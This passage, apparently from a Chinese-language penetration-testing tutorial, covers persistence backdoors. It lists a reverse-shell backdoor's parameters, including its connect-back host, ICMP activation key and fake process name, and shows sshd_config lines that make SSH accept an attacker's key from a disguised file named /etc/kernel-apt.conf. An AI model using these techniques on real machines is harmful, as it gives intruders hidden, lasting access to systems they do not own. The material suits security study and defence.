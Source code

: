 >   STATIC mode:

>   REVERSE_HOST: Machine address to connect back

>   REVERSE_PORT: Machine port to connect back

>   RESPAWN_DELAY: Time, in seconds, between each connection

>   ICMP mode:

>   ICMP_KEY: Key/Password to activate the backdoor

>   Generic parameters:

>   MOTD: Message to be printed at the backdoor connection

>   SHELL: Shell to execute

>   PROCESS_NAME: Fake process name

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/b94c193a94e5287fc0a9b6796c85b4ee.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/1054e13ff52bd7bcc0029f65171204b3.png)

受害机:

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/f9eba7af1297fe547a24436a4bfca6eb.png)

攻击机:

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/726639abb7a7761ac7f1ad1eed9049ae.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/1c4a6d9debbedd6408b51d4a99f1ff25.png)

受害者机上执行ps -ef可查看到攻击者开启的进程:

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/e5fab007c051732e1ae9ea20707b3e51.png)

**SSH劫持sshd_config配置中公钥文件后门**

目标机器:

/etc/ssh/sshd_config:

RSAAuthentication yes

PubkeyAuthentication yes

StrictModes no

AuthorizedKeysFile .ssh/authorized_keys /etc/kernel-apt.conf(后门公钥文件)

将自己生成的公钥对中公钥放到后门配置文件/etc/kernel-apt.conf中即可SSH连接

默认StrictModes yes时实现方法:

1.后门配置文件中后门公钥文件需存放在将要登录的用户(如目标机器root用户)主目录下，如AuthorizedKeysFile
.ssh/authorized_keys /root/kernel-apt.conf

步骤2和3非必须:
